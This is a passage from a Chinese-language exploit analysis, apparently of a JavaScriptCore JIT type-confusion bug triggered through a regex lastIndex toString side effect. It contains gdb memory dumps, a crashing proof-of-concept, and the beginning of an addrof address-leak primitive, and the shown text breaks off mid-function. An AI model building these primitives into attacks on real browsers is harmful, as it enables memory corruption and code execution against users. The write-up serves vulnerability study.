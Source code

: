 但是当加入一个对象，浮点数数组变成了对象数组，此时最开始的浮点数标志位就会从`0000`变为`0001`以区分指针和浮点数
```javascript
>>> describe([5.2900040263529e-310, 2.2, {}])            
Object: 0x7fffaf4b4340 with butterfly 0x7fe0000fe6c8 (Structure 0x7fffaf4f2ae0:[Array, {}, ArrayWithContiguous, Proto:0x7fffaf4c80a0]), StructureID: 99

(gdb) x/4gx 0x7fe0000fe6c8
0x7fe0000fe6c8:	0x0001616161616161	0x400299999999999a
0x7fe0000fe6d8:	0x00007fffaf4b0080	0x00000000badbeef0
```

带上注释理解Poc，在位置1已经完成前期JIT优化和`lastIndex`设置等工作，位置2执行正则匹配的时候利用toString将victim_array转换为对象数组，但由于未考虑`lastIndex`带来的Side-Effect，经过JIT优化后的函数`funcToJIT()`认为数组依旧是浮点数数组，导致位置3写入`0x0000616161616161`时并未修改`0000`标志位
```javascript
var victim_array = [1.1]; // 浮点数数组
var reg = /abc/y; // 带修饰符y的正则表达式，匹配abc
var val = 5.2900040263529e-310 // 0x0000616161616161

// 用于JIT的函数
var funcToJIT = function() {
    'abc'.match(reg);    // <-- 2
    victim_array[0] = val;    // <-- 3
}

// 循环调用触发JIT优化
for (var i = 0; i < 10000; ++i){
    funcToJIT()
}

// 设置lastIndex
regexLastIndex = {};
regexLastIndex.toString = function() {
    victim_array[0] = {};
    return "0";
};
reg.lastIndex = regexLastIndex;

// 此时函数funcToJIT已经完成JIT
funcToJIT()    // <-- 1

// 将0x0000616161616161作为对象指针调用导致崩溃
print(victim_array[0])
```

**这里要注意一点：JIT后的代码始终认为victim_array是浮点数类型数组**

在分析清楚了漏洞成因之后，我们来思考如何利用这个漏洞构造读写原语

构造原语的最终形式就是函数调用，比如我们要获取一个对象的地址，那参数就是这个对象，返回值是该对象的地址

任意对象地址泄露原语`addrof`如下
```javascript
function addrof(val) {
    var array = [13.37];
    var reg = /abc/y;
    var AddrGetter = function(array) {
        "abc".match(reg);
        return array[0];
    }
    for (var i = 0; i < 10000; ++i)
        AddrGetter(array);
    regexLastIndex = {};
    regexLastIndex.toString = function() {
        array[0] = val;    // 将目标对象赋值给array[0]，数组转换为对象数组
        return "0";
    };
    reg.lastIndex = regexLastIndex;
```